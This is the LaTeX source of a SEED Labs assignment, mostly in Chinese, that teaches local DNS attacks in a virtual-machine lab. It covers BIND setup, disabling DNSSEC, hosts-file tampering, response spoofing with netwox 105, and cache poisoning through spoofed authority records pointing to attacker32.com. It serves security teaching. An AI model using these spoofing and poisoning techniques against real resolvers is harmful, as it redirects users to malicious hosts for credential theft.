%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{ctex}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\dnsFigs}{./Figs}
\lhead{\bfseries SEED Labs -- 本地DNS攻击实验}


\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\newcommand{\bankcom}{\url{bank32.com}\xspace}
\newcommand{\wwwbank}{\url{www.bank32.com}\xspace}
\newcommand{\examplenet}{\url{example.net}\xspace}
\newcommand{\wwwexample}{\url{www.example.net}\xspace}
\newcommand{\apollo}{\texttt{Apollo}\xspace}

\begin{document}

\begin{center}
{\LARGE 本地DNS攻击}
\end{center}

\seedlabcopyright{2018}


% *******************************************
% SECTION
% ******************************************* 
\section{实验综述}

DNS (Domain Name System) 是互联网中的电话本,它将主机名转换为IP地址(反之亦然)。
该转换是通过DNS解析完成的,DNS攻击往往通过操纵该解析过程,以各种方式将用户误导至
指定的目的地,并且该目的地通常是恶意的。本实验的目的在于理解此类攻击的原理。学生将首先
搭建并配置一个DNS服务器,然后在实验环境内对该DNS服务器尝试多种攻击手段。

攻击本地受害主机和攻击远程DNS服务器的难点不同,因此我们设计了两个实验,一个关注于本地
DNS攻击,另一个关注于远程DNS攻击。本实验着重本地DNS攻击,涵盖以下主题:

\begin{itemize}[noitemsep]
\item DNS介绍与工作原理
\item DNS服务器搭建
\item DNS缓存投毒攻击
\item DNS响应包欺骗
\item 包嗅探与欺骗
\item Scapy工具介绍
\end{itemize}


\paragraph{相关阅读材料与视频:}
关于DNS协议与攻击的详细内容可以参考以下材料:

\begin{itemize}
\item Chapter 18 of the SEED Book, \seedbook
\item Section 7 of the SEED Lecture, \seedisvideo
\end{itemize}



\paragraph{实验环境:} \seedenvironment



% *******************************************
% SECTION
% ******************************************* 
\section{实验 I: 搭建本地DNS服务器}

本实验的主要目的是DNS攻击,攻击的目标是本地的DNS服务器。显然,攻击真实的机器是违法的,
因此我们需要配置自己的DNS服务器来进行攻击实验。本次实验环境需要3台独立的主机:受害者主机,
DNS服务器和攻击者主机。我们将在一台物理宿主机上运行这三个虚拟机,所有这些虚拟机(VMs)都运行在
我们预先构建的\ubuntu VM镜像中。图~\ref{dns:fig:environment}说明了实验环境的设置
对于VM网络设置,如果使用{\tt VirtualBox},请使用{\tt "NAT Network"}作为每个VM的网络适配器选项,
如果使用{\tt Vmware},使用默认的{\tt "NAT"}选项即可。

For simplicity,We put three VMs on the same network,In subsequent experiments,
We assume that the IP of the user's host is{\tt 10.0.2.18},
DNS服务器的IP为{\tt 10.0.2.16},
攻击者的IP为{\tt 10.0.2.17}。
我们需要配置用户主机和本地DNS服务器,
至于攻击者主机,我们采用默认的配置即可。


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\dnsFigs/environment_setup.pdf}
\caption{实验环境搭建}
\label{dns:fig:environment}
\end{figure}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{任务 1: 配置用户主机}

In the user host {\tt 10.0.2.18}, we need to configure {\tt 10.0.2.16} as a local DNS server (by default,
The DNS service program has been running in the SEED VM), this configuration can be achieved by changing the host's DNS resolution file (\texttt{/etc/resolv.conf}),
In this file we add the server \texttt{10.0.2.16} as the preferred \texttt{nameserver}.
However, since the VMs we provide all use Dynamic Host Configuration Protocol (DHCP) to obtain network configuration parameters, such as IP addresses, local DNS servers, etc.,
The DHCP client will overwrite and rewrite the \texttt{/etc/resolv.conf} file with the network configuration information obtained from the DHCP server.


为防止我们在 \texttt{/etc/resolv.conf} 文件中的配置被DHCP覆盖,我们可以添加以下内容到
\path{/etc/resolvconf/resolv.conf.d/head}文件中:

\begin{lstlisting}
Add the following to /etc/resolvconf/resolv.conf.d/head
  nameserver 10.0.2.16

Run the following command to make the configuration changes take effect
  $ sudo resolvconf -u
\end{lstlisting}
 
The content of the head file will be added before the automatically generated configuration file, usually just a comment line (the comments of \texttt{/etc/resolv.conf} often come from its head file).


在成功配置完用户主机后,使用\texttt{dig}命令来尝试获取一个主机名(hostname)的IP地址,从dig的回显来查看
响应内容是否是从本地的DNS服务器返回,如果不是则证明未成功配置。


% The following instruction works, but it is error prone.
\begin{comment}
To avoid this, we should tell the DHCP client not to set the
DNS server automatically. This can be achieved using the following procedure (for \ubuntu
16.04):


\begin{enumerate}
  \item Go to \texttt{"System Settings"}, and click the \texttt{"Network"} icon.
  \item Choose the \texttt{"Wired"} tab, and click the
        \texttt{"Options"} button. A dialog will pop up.

  \item Click the \texttt{ "IPv4 Settings"} tab.  In the \texttt{"Method"} entry, choose
        \texttt{"Automatic (DHCP) Addresses Only"}, and then type the IP address of the local DNS
        server in the \texttt{"DNS servers"} entry. We do not need to type anything in the
        other two fields~(See Figure~\ref{dns:fig:user_machine_setup}).

  \item Finally, click the network icon on the top right corner of the desktop, and Select
    \texttt{"Wired connection 1"}. This will refresh the wired network connection and updates the changes.
    It should be noted that \texttt{"Wired connection 1"} is the name that we choose for our
    connection (see Figure~\ref{dns:fig:user_machine_setup});  we can choose a
    different name.
\end{enumerate}


\begin{figure}[htb]
  \begin{center}
    \includegraphics[width=0.5\textwidth]{\dnsFigs/config_local_dns_server.pdf}
  \end{center}
  \caption{User machine setup}
  \label{dns:fig:user_machine_setup}
\end{figure}

\end{comment}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 2: 搭建本地DNS服务器}

For the local DNS server, we need to run a DNS service program. The most widely used DNS service software is BIND~(Berkeley Internet Name
Domain), the software was originally developed and designed by the University of California, Berkeley in the early 1980s, the latest version
Named BIND 9, it was first released in 2000. We will show how to configure the BIND 9 software in an experimental environment.
The BIND 9 software has been pre-installed in the \ubuntu VM image.


\paragraph{Step 1: 配置 BIND 9 服务器:}
BIND 9 从配置文件\path{/etc/bind/named.conf}读入软件配置,该文件是主配置文件,
它通常包含许多\texttt{"include"}入口,真正的配置内容往往保存在这些引入文件中。
其中我们通常需要设置的是\path{/etc/bind/named.conf.options}文件,首先我们在\texttt{options}块中
添加一个\texttt{dump-file}来设置与DNS缓存相关的选项:

\begin{lstlisting}
  options {
      dump-file "/var/cache/bind/dump.db";
  };
\end{lstlisting}


上述的\texttt{options}指定了当BIND需要转储DNS缓存时,缓存文件的存储位置。如果该选项没有指定,
BIND将转储缓存到默认文件\path{/var/cache/bind/named_dump.db}。下面显示的两个命令与DNS缓存有关。
第一个命令将DNS缓存内容转储到之前指定的位置,第二个命令将清除缓存。

\index{DNS command!rndc dumpdb}\index{DNS command!rndc flush}

\begin{lstlisting}
   $ sudo rndc dumpdb -cache    // Dump the DNS cache to the specified location
   $ sudo rndc flush            // Clear DNS cache
\end{lstlisting}


\paragraph{Step 2: 关闭 DNSSEC:}
DNSSEC的引入为了防止DNS服务器受到欺骗攻击,
为了展示DNS攻击的效果,我们需要关闭这种保护机制。可以通过修改\path{named.conf.options}文件:
注释掉{\tt dnssec-validation} 行,添加一行
{\tt dnssec-enable} 。

\begin{lstlisting}
  options {
      # dnssec-validation auto;
      dnssec-enable no;
  };
\end{lstlisting}


\paragraph{Step 3: 启动DNS服务:}
配置完成后,我们可以使用以下命令启动DNS服务器,每一次更改DNS配置,都需要重新启动一次DNS服务。
使用下述命令可以启动或重启 BIND 9 DNS服务器。

\begin{lstlisting}[backgroundcolor=]
  $ sudo service bind9 restart
\end{lstlisting}


\paragraph{Step 4: 使用DNS服务器:}
启动后,我们回到用户主机\texttt{ping}一台主机如\url{www.google.com} 或 \url{www.facebook.com}
来描述你的观察结果。请使用Wireshark来展示\texttt{ping}命令的DNS查询过程,也观察一下什么时候会用到DNS缓存。



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 3: 管理本地DNS服务器的区域(Zone)}

假定我们现在拥有一个域(domain),我们负责为该域下的请求提供明确的答案。
我们使用本地DNS服务器作为该域的权威nameserver,在本实验中,我们将为
\texttt{example.com}域名搭建一个权威服务器,该域名被保留供文档使用,并不属于任何人,
因此我们可以安全地使用它。


\paragraph{Step 1: 创建区域(Zone):}
我们需要在DNS服务器中创建两个区域条目,可以通过在\path{/etc/bind/named.conf}文件中
添加以下内容。第一个区域(Zone)用于正向查找(从域名到IP),第二个区域用于反向查找(从IP到域名)。
值得注意的是\texttt{example.com}域名被保留仅供文档使用,并不属于任何人,因此可以被安全地使用。


\begin{lstlisting}
zone "example.com" {
        type master;
        file "/etc/bind/example.com.db";
      };

zone "0.168.192.in-addr.arpa" {
        type master;
        file "/etc/bind/192.168.0.db";
      };
\end{lstlisting}


\paragraph{Step 2: 设置正向查找的区域文件:}
在Zone配置中,跟在{\tt file} 关键词后的文件名称为区域文件(Zone file),在这里存储着真正的DNS解析。
在\texttt{/etc/bind/}目录我们创建一个名为\texttt{example.com.db}的区域文件。
对于区域文件语法感兴趣的读者可以参考RFC 1035了解详细信息。

\vspace{0.2in}
\begin{lstlisting}
$TTL 3D ; default expiration time of all resource records without
        ;   their own TTL
@       IN      SOA     ns.example.com. admin.example.com. (
        1               ; Serial
        8H              ; Refresh
        2H              ; Retry
        4W              ; Expire
        1D )            ; Minimum

@       IN      NS      ns.example.com.       ;Address of nameserver
@       IN      MX      10 mail.example.com.  ;Primary Mail Exchanger

www     IN      A       192.168.0.101   ;Address of www.example.com
mail    IN      A       192.168.0.102   ;Address of mail.example.com
ns      IN      A       192.168.0.10    ;Address of ns.example.com
*.example.com. IN A     192.168.0.100   ;Address for other URL in
                                        ;  the example.com domain
\end{lstlisting}


符号 `@'是一个特殊符号,表示在{\tt named.conf}(\texttt{"zone"}后的字符串)中指定的源,
在本实验中,`@'代表\url{example.com}。这个区域文件中包含7个资源记录(RRs),其中有一条
SOA(Start Of Authority)\index{Start of Authority}记录,一条NS (Name Server)记录,
一条MX (Mail eXchanger)记录和4条A (host Address)记录。



\paragraph{Step 3: 设置反向查找的区域文件:}
为了支持DNS反向查找,即从IP地址到域名,我们需要设置DNS反向查找文件
在\path{/etc/bind/} 目录中,我们为\url{example.net}域名创建以下DNS反向查找文件,
文件名为\texttt{192.168.0.db}:
\begin{lstlisting}
$TTL 3D
@       IN      SOA     ns.example.com. admin.example.com. (
                1
                8H
                2H
                4W
                1D)
@       IN      NS      ns.example.com.

101     IN      PTR     www.example.com.
102     IN      PTR     mail.example.com.
10      IN      PTR     ns.example.com.
\end{lstlisting}


\paragraph{Step 4: 重启BIND服务并测试:}
完成所有更改后,需重新启动BIND服务。现在,我们回到用户主机,使用\texttt{dig}命令来向本地DNS服务器
询问\url{www.example.com}的IP地址。请描述并解释你观察到的现象。







% *******************************************
% SECTION
% ******************************************* 
\section{实验 II: DNS攻击}


针对用户进行DNS攻击的主要目的是当用户使用$A$的域名尝试访问主机$A$时,将他重定向到另一个主机$B$。
例如,当用户尝试访问网上银行,如果攻击者可以将用户重定向到一个看起来类似银行主网站的恶意站点,
那么该用户很有可能信以为真并泄露了自己的银行账户和密码。

当用户在浏览器中输入\url{http://www.example.net} ,用户主机将发出一个DNS查询来获取该网站的
IP地址。攻击者的目标是利用伪造的DNS答复来欺骗用户,进而将域名解析到一个恶意的IP地址。有多种
方法可以发起此类DNS攻击,图~\ref{dns:fig:attack_surface}展示了DNS攻击面(attack surface),
有关DNS攻击面的详细分析可以参见SEED book的第15章。

我们将在 \url{example.net}域上发动一系列的DNS攻击。值得注意的是,我们使用 \url{example.net}
作为我们的攻击目标,而不是 \url{example.com}。因为后者在环境搭建时已经由本地DNS服务器托管,
所以任何针对该域中主机名的DNS请求不会向外发出。



\begin{figure}[tb]
\centering

\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_surfaces.pdf}
\caption{DNS的攻击面}
\label{dns:fig:attack_surface}
\end{figure}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 4: 修改Host文件}

HOSTS文件 \texttt{/etc/hosts}中保存的域名与IP地址的对应关系用于本地查找,它们优先于远程DNS查询。例如,用户的
HOSTS文件中如果存在以下条目,则\texttt{www.example.net}将在用户主机中解析为1.2.3.4,且
不会询问任何DNS服务器:

\begin{verbatim}
1.2.3.4        www.example.net
\end{verbatim}

如果攻击者可以入侵用户的主机,那么他们就可以修改HOSTS文件,以便在用户尝试访问{\tt www.example.net}
时将用户重定向到恶意站点。假设你已经入侵了目标主机,请尝试此技术将 \wwwbank 重定向到任何你选择的IP地址。

应注意,{\tt dig}命令会忽略 \texttt{/etc/hosts}文件,但会对\texttt{ping}命令和浏览器访问生效。
试比较攻击前后的结果。



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 5: DNS响应欺骗}


在这个攻击中,受害者主机没有被攻陷,所以攻击者无法直接修改受害者主机的DNS查询过程。
然而,当攻击者与受害者在同一局域网中,攻击者仍能造成很大的危害。


\begin{figure}[htb]
\centering

\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_server_local.pdf}
\caption{本地DNS缓存投毒攻击}
\label{dns:fig:local_attack}
\end{figure}


当用户在浏览器中输入一个网址(一个域名,如{\tt www.example.net}),用户主机会向DNS服务器
发出DNS请求来解析域名的IP地址。攻击者在嗅探到DNS请求包后,可以伪造虚假的DNS响应返回给用户(见图~\ref{dns:fig:local_attack})。
伪造的DNS响应包在满足以下条件时,会被用户主机接受:


\begin{enumerate}

\item 源IP必须与DNS服务器匹配。

\item 目的IP必须与用户主机的IP相匹配。

\item 源端口(UDP端口)必须与DNS请求被送达的端口相匹配(通常为53端口)。

\item 目的端口必须与DNS请求发出时的源端口相匹配。

\item UDP检验和的计算必须正确无误。 

\item 传输ID 必须与DNS请求中的传输ID相匹配.

\item 答复询问部分的域名必须与请求询问部分的域名相匹配。

\item 答复部分的域名必须与DNS请求询问部分的域名相匹配。

\item 用户主机必须在收到合法的DNS响应之前接收到攻击者的DNS应答。
\end{enumerate}


为了满足条件1到条件8,攻击者可以嗅探受害者发送的DNS请求消息;接着,攻击者可以伪造一个DNS响应
并在真正的DNS服务器响应前发送给受害者。{\tt Netwox} tool \texttt{105}提供了一种工具来进行
嗅探和响应伪造。我们可以在回复数据包中构建任意的DNS响应内容。此外,我们可以使用``filter''字段
来指定需要嗅探的数据包类型。例如,通过使用\texttt{"src host 10.0.2.18"},我们可以将监听范围
限制为仅仅监听来自host \texttt{10.0.2.18}的数据包。该工具的使用手册如下所示:

\begin{lstlisting}[caption={The usage of the Netwox Tool 105}]
Title: Sniff and send DNS answers
    Usage: netwox 105 -h data -H ip -a data -A ip [-d device]
                     [-T uint32] [-f filter] [-s spoofip]
    Parameters:
    -h|--hostname data    hostname
    -H|--hostnameip ip    IP address
    -a|--authns data      authoritative nameserver
    -A|--authnsip ip      authns IP
    -d|--device device    device name
    -T|--ttl uint32       ttl in seconds
    -f|--filter filter    pcap filter
    -s|--spoofip spoofip  IP spoof initialization type
\end{lstlisting}


当攻击程序在运行时,你可以在用户主机上代表用户执行\texttt{dig}命令。
该命令会触发用户主机向本地DNS服务器发送一个DNS查询请求,DNS服务器会向\texttt{example.net}域的
权威名称服务器发送DNS查询请求(如果DNS缓存中不包含答案)。如果攻击成功,你可以在回复中看到你
设置的欺骗信息,请比较攻击前后的结果。




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 6: DNS缓存投毒攻击}

以上的攻击目标都是用户主机,为了取得长久的攻击效果,每次用户主机发出对\url{www.example.net}
的DNS查询时,攻击者都必须发送一个伪造的DNS响应。这样的方式可能不是那么有效,有一种更好的方式
来进行DNS攻击,即以DNS服务器为目标,而不是用户主机。

当DNS服务器 \apollo 收到查询时,如果主机名不在 \apollo 的域内,它将询问其他DNS服务器来进行域名解析。
值得注意的是,在我们的实验环境搭建时,DNS服务器的域为{\tt example.com}。因此,对于其他域(如\texttt{example.net})
的DNS查询,DNS服务器 \apollo 会去请求其他的DNS服务器。然而,在 \apollo 询问其他DNS服务器之前,它
首先会在自身的缓存中寻找答案。若缓存中有,则 \apollo 直接用缓存中的信息进行答复,如果答案不在缓存中,
则尝试从其他DNS服务器中获得答案。当 \apollo 得到了答案,它会将该答案存储在缓存中,这样下次无需询问
其他DNS服务器的响应。见 图~\ref{dns:fig:local_attack}。

因此,一旦攻击者可以伪造其他DNS服务器的响应,\apollo 会将欺骗的响应保存在缓存中一段时间。
下一次,当用户主机请求解析相同的域名时,\apollo 会使用缓存中的欺骗响应进行回复。所以,攻击者
只允许进行一次欺骗,攻击的影响可以持续到缓存的信息过期为止。这种攻击成为DNS缓存投毒攻击。

我们使用相同的工具(\texttt{Netwox 105})进行此攻击。进行攻击之前,请确保DNS服务器的缓存为空,
可以使用以下命令刷新缓存:

\begin{lstlisting}[backgroundcolor=]
$ sudo rndc flush
\end{lstlisting}

此攻击与先前攻击的区别在于,我们欺骗的是给DNS服务器的响应,所以我们将{\tt filter}字段设为
\texttt{"src host 192.168.0.10"},即DNS服务器的IP地址。我们还使用 {\tt ttl}字段(time-to-live)
来表示我们希望这个伪造的响应在DNS缓存中保存多久。DNS服务器中毒之后,我们可以停止{\tt Netwox 105}程序,
如果我们将{\tt ttl}设置为600(秒),那么DNS服务器将在未来的10分钟内持续给出伪造的响应回复。

请注意:请将{\tt spoofip}字段设置为{\tt raw}。否则{\tt Netwox 105}会进一步尝试欺骗MAC地址。
为获得MAC地址,该工具会发送ARP请求,询问欺骗IP的MAC地址。
由于欺骗IP往往是外部的DNS服务器,并不知道同一Lan上。因此没有人会回复这一ARP请求,这会造成该
工具在发出欺骗响应前白白等待一段时间。我们知道欺骗响应的关键在于欺骗包需早于真实的响应送达,这就是
为什么我们需要要求该工具不要欺骗MAC地址。

在针对目标域名执行\texttt{dig}命令时,你可以通过{\tt Wireshark}观察NDS流量来判断DNS服务器是否已被投毒。
你也可以转储本地DNS服务器的缓存,检查伪造响应是否已被缓存。
转储并查看DNS服务器的缓存可以使用以下命令:


\begin{lstlisting}
$ sudo rndc dumpdb -cache
$ sudo cat /var/cache/bind/dump.db
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 7: DNS缓存投毒: 针对授权部分}

在上一个攻击中,我们的DNS缓存投毒攻击只影响一个域名,如\url{www.example.net}。
如果用户尝试获取其他域名的IP地址,例如\url{mail.example.net},我们则需要再次发起攻击。
如果我们可以发起一种影响整个\texttt{example.net}域的攻击,那将会更加有效。

实现这一攻击的想法是利用DNS答复中的授权部分(Authority Section)。基本上,当我们欺骗响应时,除了欺骗答案(在Answer部分),
我们还可以授权(Authority)部分添加一些内容。当以下条目被缓存在本地的DNS服务器中,\url{ns.attacker32.com}
会被用作名称服务器,来查询\texttt{example.net}域中的任何主机名。由于\url{attacker32.com}是由
攻击者控制的主机,因此他可以为所有请求伪造任意的回复。

\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN      NS       attacker32.com.
\end{lstlisting}
 
 
本节的目的是进行一次这样的攻击,你需要证明你可以让本地DNS服务器缓存以上条目。
缓存中毒之后,你可以针对\url{example.net}域上任何子域名运行一次\texttt{dig}命令,
并使用Wireshark观察DNS查询请求的去向。 \url{attacker32.com}域名由SEED Labs的作者杜文亮教授
拥有,但该机器并未配置为一个DNS服务器。因此,你无法从该域名中获得DNS响应,但Wireshark中的流量
可以告诉你攻击是否成功。

你需要使用Scapy工具来完成这项攻击,Guideline部分有简单的示例代码。



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{任务 8: 针对其它域名的攻击} 

在上一个攻击中,我们成功投毒了本地的DNS缓存,因此\texttt{attacker32.com}已成为了
\texttt{example.com}域的名称服务器。受此成功的启发,我们希望将攻击影响扩展到其它域。
在由\url{www.example.net}查询触发的欺骗响应中,我们希望在授权部分添加其他条目(参阅以下内容),
从而让\url{attacker32.com}成为\texttt{google.com}域的名称服务器。


\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN      NS       attacker32.com.
google.com.             259200  IN      NS       attacker32.com.
\end{lstlisting}

请使用Scapy来对本地DNS服务器进行该攻击,描述并解释观察到的现象。需要注意的是我们攻击的DNS请求,
仍是针对\texttt{example.net}域,而非\texttt{google.com}。


% -------------------------------------------
% SUBSECTION
